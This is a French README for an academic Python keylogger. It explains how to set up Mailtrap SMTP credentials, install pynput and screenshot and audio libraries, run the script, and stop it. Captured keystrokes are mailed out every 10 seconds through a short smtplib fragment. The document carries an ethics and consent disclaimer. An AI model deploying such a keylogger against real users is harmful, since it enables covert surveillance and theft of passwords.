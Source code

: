 **DISCLAIMER**

**Ce projet a ete realise a des fins academiques. L'utilisation de logiciels tels qu'un keylogger doit toujours respecter les lois et l ethique.**

**Ne pas utiliser ce script a des fins d'enregistrement de frappes sur l'ordinateur d'autrui (ou sur le votre en ciblant un autre utilisateur) sans le consentement explicite de ce dernier.**

**Ne testez jamais un keylogger sur une machine ou vous n avez pas la permission explicite de le faire.**

**Veuillez utilisez ce script dans un environnement securise (par exemple, une machine virtuelle ou un ordinateur de test), controle et legalement acceptable.**

**Utilisez un compte SMTP dedie et ne partagez jamais vos informations personnelles.**




**Ce script permet d'enregistrer les frappes de clavier. Ces informations recueillies sont envoyees a une boite mail toutes les 10 secondes.**



**Etape 1 : Definir les identifiants SMTP**

**Le protocole SMTP (Simple Mail Transfer Protocol) est utilise pour envoyer des e-mails.**
**Un moyen mnemotechnique de retenir sa definition est : SMTP <=> Send mail to people**


**La premiere etape va donc etre de creer un compte mail dedie a la reception des informations enregistrees avec le keylogger.**

**Nous avons fait le choix du systeme de messagerie "Mail trap". Apres avoir cree un compte avec des donnees jetables, nous devons configurer les identifiants SMTP dans le script.**

**Ouvrez le fichier qui se nomme "Keylogger.py" dans un editeur de texte comme VSCode ou Notepad++.**

**Cherchez les lignes o "SMTP_USERNAME" et "SMTP_PASSWORD" sont mentionnes.**

**Remplacez-les par vos propres informations :**

**Dans cette section, nous allons definir l'adresse mail ainsi que le mot de passe mail :**

**finally:**
    **EMAIL_ADDRESS = "xxxxxx" #Remplacer par le "username" de Mailtrap**
    **EMAIL_PASSWORD = "xxxxxx" #Remplacer par le "password" de Mailtrap**

![information sur le mail](images\infos_mail.png)



**Dans cette section, nous allons entrer le numero du port SMTP, nous permettant d'envoyer les informations enregistres vers la boite de reception.**

m += message
	**with smtplib.SMTP("sandbox.smtp.mailtrap.io", 25) as server: # Mettre le numero de port defini dans les instructions Mailtrap**
        **server.login(email, password)**
        **server.sendmail(sender, receiver, message)**

Ainsi, le port numero 25 est defini. 

![information SMTP](images\smtp_screenshot.png)



**Etape 2 : Installer les dependances necessaires**

**Depuis le terminal, on va lancer la commande pip install -r requirements.txt**

**Cette commande permet d'installer toutes les bibliotheques listees dans le fichier requirements.txt**

**Ce fichier contient les lignes suivantes :**

**pynput==1.7.3 : controler et surveiller le clavier et la souris**
**pyscreenshot==3.1 : prendre des captures d'ecran**
**sounddevice==0.4.3 : gerer l'enregistrement de sons**
**Pillow==9.3.0 : bibliotheque de traitement d'images**



**Etape 3 : Executer le keylogger**

**Toujours depuis le terminal, on lance le script depuis le fichier keylogger.py***

**On lance la commande python keylogger.py**

**Le script commence alors a enregistrer les frappes de claviers**

**Les donnees sont envoyees toutes les 10 secondes dans la boite de reception.**




**En cas d'erreur :**

**Il pourrait y avoir une probleme avec le paquet pyscreenshot lors de son installation**

**L'erreur pourrait par exemple liee a une incompatibilite entre la version de pyscreenshot demandee (0.5.1) et votre environnement Python**

**Pour resoudre ce probleme**

**Modifier la ligne pyscreenshot==0.5.1**

**par**

**pyscreenshot==[derniere version en vigueur]**

**A la date du 15/11/2024, la derniere version utilisee pour pyscreenshot est : 3.1 ***

**Si vous rencontrez encore des erreurs, ajustez les versions jusqu'a ce que toutes soient compatibles avec votre version de Python**

**Vous pourriez par exemple avoir des problemes d'incompatibilite entre votre version de Python et la version de Pillow***



**Correspondances pillow et python : site internet : https://pillow.readthedocs.io/en/stable/installation/python-support.html**


![information Ssur les compatibilites entre pillow et python](images\correspondances_versions_pillow_python.png)


![information Ssur les compatibilites entre pillow et python](images\correspondances_versions_pillow_python1.png)


**Pour arreter le keylogger :**

**Il fonctionne en arriere-plan comme un processus. Afin de l'arreter, entrer dans le terminal : Ctrl + C**

**Si cela ne fonctionne pas, entrer dans le terminal :**

**tasklist | findstr python**

**Cela permettra d'afficher tous les processus Python qui sont actifs. Il suffit ensuite d'identifier le PID associe au script.**

**Pour l'arreter, entrer dans le terminal :**

**taskkill /PID [PID du script] /F**

**Enfin, si le keylogger enregistre les frappes de clavier dans un fichier temporaire, supprimer ce fichier.**
